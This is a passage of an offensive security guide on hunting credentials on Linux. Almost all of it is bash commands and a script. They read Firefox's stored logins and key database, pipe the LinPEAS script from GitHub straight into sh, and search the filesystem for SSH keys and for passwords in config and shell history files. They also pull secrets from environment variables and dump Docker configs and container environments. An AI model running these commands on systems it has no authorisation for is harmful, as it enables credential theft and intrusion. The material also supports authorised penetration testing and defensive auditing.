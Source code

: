 ```bash
```

**Firefox credential files:**
```bash
# Firefox stored credentials location
~/.mozilla/firefox/[profile]/logins.json

# View encrypted credentials
cat ~/.mozilla/firefox/1bplpd86.default-release/logins.json | jq .

# Manual decryption locations
~/.mozilla/firefox/[profile]/key4.db    # Master key database
~/.mozilla/firefox/[profile]/cert9.db   # Certificate database
```

### 4. LinPEAS (Linux Privilege Escalation Awesome Scripts)
```bash
# Download and run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Or run specific checks
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a  # All checks including passwords
```

### 5. Custom Linux Credential Scripts
```bash
#!/bin/bash
# credHunter.sh - Linux credential hunting script

echo "=== SSH Key Discovery ==="
find / -name "id_*" -type f 2>/dev/null | head -20

echo "=== Configuration Files ==="
find /etc/ -name "*.conf" 2>/dev/null | xargs grep -l -i "password" 2>/dev/null

echo "=== History Analysis ==="
find /home/ -name ".*_history" 2>/dev/null | xargs grep -l -i -E "(ssh|mysql|password)" 2>/dev/null

echo "=== Environment Variables ==="
env | grep -i -E "(password|secret|key|token)"

echo "=== Recent Files ==="
find / -type f -mtime -1 2>/dev/null | head -20
```

## 🐳 Container and Orchestration Credential Hunting

### Docker Credential Hunting
```bash
# Docker configuration
cat ~/.docker/config.json

# Docker environment files
find / -name ".env" -path "*/docker/*" 2>/dev/null

# Docker Compose files
find / -name "docker-compose.yml" -o -name "docker-compose.yaml" 2>/dev/null

# Check running containers
docker ps 2>/dev/null
docker exec -it <container_id> env 2>/dev/null
```